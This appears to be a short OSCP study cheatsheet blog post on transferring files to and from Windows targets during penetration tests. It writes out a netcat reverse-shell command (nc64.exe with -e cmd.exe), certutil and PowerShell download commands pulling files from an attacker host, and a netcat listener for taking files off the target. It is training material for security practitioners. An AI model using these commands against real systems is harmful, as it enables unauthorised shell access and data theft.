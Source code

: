 ```yaml
---
title: Windows File Transfers
author: linatl
date: "2021-03-10 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### Start a webserver
```
Python3
> sudo python3 -m http.server 80

Python2
> sudo python -m SimpleHTTPServer 80
```


###### File uploads to target
```
impacket-smbserver.py
```

###### File uploads on target system
```
netcat
\\192.168.1.1\nc64.exe 192.168.1.1 80 -e cmd.exe

certutil
certutil.exe -urlcache -f http://192.168.1.1/file.txt file.txt

Using powershell
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.1:80/file.txt', 'C\file.txt')
```

###### File downloads from target
```
netcat
nc -nvlp 80 < file.txt
```
